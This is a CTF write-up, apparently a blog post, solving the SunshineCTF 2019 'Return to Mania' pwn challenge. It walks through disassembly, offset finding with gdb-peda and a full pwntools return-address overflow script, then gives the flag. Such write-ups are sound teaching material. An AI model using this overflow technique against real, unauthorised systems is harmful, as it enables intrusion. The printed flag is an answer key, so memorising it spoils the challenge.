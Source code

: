 #PWN
As a word of warning, I'm not all that good at pwn. Luckily, there were only two pwn challenges. 1 out of 2 is good right? T_T
<br>
<br>
## 50 points: Return to Mania
```
To celebrate her new return to wrestling, Captn Overflow authored this challenge to enter the ring

nc ret.sunshinectf.org 4301

Author: bambu
```
<a href='http://files.sunshinectf.org/pwn/return-to-mania'>binary</a>

I started out by just running the file. 

![](/Images/2019/SunshineCTF/retbegin.PNG)

As the description suggested, it's a buffer overflow challenge. And since it gives us an address, it's probably a return pointer overflow. Let's analyze the executable with <a href='https://github.com/longld/peda'>gdb-peda</a>, shall we?

![](/Images/2019/SunshineCTF/gdbfunc.PNG)

I always start by looking at the functions, then disassembling them.

![](/Images/2019/SunshineCTF/retmain.PNG)

![](/Images/2019/SunshineCTF/retwelc.PNG)

![](/Images/2019/SunshineCTF/remania.PNG)

Interesting. `main` calls `welcome`, but `welcome` never calls `mania`, regardless of the key you put in. So `mania` is probably our goal function here, since the title is literally "Return to Mania". But what does `mania` do? It looks like it reads in a file, so I'm hopeful. I set a breakpoint at main, ran the program, and when it broke, set the program counter to the address of mania.

![](/Images/2019/SunshineCTF/maniainteresting.PNG)

Bingo. That's what we want. It tried to open a '`flag.txt`', which means on the service it actually would open the flag. The address of mania is `0x90` less than the address welcome, and hopefully that's the case for the remote version too. Fun fact: I spent a long time trying to figure out why my code didn't work, and it turned out that I originally did my math wrong (I thought it was `0xA0`).

![](/Images/2019/SunshineCTF/addressesret.PNG)

Now what I need to do is to find the offset. I did this using gdb-peda's pattern function. I created a four character function (stand in for the four bytes that the address payload would be) using `pattern create 4`. I then tested different values until `pattern search` found the entire pattern in `eip`, which is the return address pointer.

![](/Images/2019/SunshineCTF/offsetcalc.PNG)

It turned out to be an offset of 22 bytes, so I'll need to have 22 characters before the address of mania.

I then proceeded to use good old <a href='https://github.com/Gallopsled/pwntools'>pwntools</a> to start making my hack. Its a bit messy, so I added some comments to help. This was my final code.
```
from pwn import *
context.log_level = 'debug'               #debug mode, so I can see exactly what my code is doing.
r = remote('ret.sunshinectf.org',4301)    #connect to the service
#r = process('./return-to-mania')         #comment out above line and uncomment this one to test locally
data = r.recvuntil('\n')                  #receive the first line, but I don't care about it so...
data = r.recvuntil('\n')                  #overwrite the first line with the second
print data                                #debug print

x = data[-11:]                            #get the address of welcome
x = int(x,0)                              #convert the hex string to an integer
target = x - int('0x90', 0)               #subtract 0x90 from the address (

target = hex(target)                      #convert the address back to hex for debug purposes
print target                              #debug print

target = int(target, 0)                   #convert it back into integer for actual use
print target                              #debug print

target = p32(target, endian='little')     #convert the integer into a 32 bit architecture little endian address
print target                              #debug print, should print utf-8 encoded hex (often has unprintables)
r.sendline('a'*22+target)                 #send the exploit on over!
print r.recv()                            #print the first line, had no flag so:
print r.recv()                            #print next line (flag)
```
I ran it locally with success:

![](/Images/2019/SunshineCTF/localtestret.PNG)

And then got the flag from the service:

![](/Images/2019/SunshineCTF/serviceret.PNG)

flag: `sun{0V3rfl0w_rUn_w!Ld_br0th3r}`
<br>
<br>
<br>
## 200 points: CyberRumble (TBA)
